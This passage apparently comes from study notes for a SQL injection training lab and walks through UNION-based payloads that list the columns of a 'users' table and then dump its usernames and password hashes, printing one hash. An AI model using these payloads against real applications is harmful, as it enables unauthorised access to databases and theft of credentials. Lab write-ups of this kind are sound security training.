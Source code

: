 Now, let's read the `users` columns:

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

![Pasted image 20250203141432.png](../../../../IMAGES/Pasted%20image%2020250203141432.png)

We can now read it with: 

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

![Pasted image 20250203141526.png](../../../../IMAGES/Pasted%20image%2020250203141526.png)

Hash is: `9da2c9bcdf39d8610954e0e11ea8f45f`
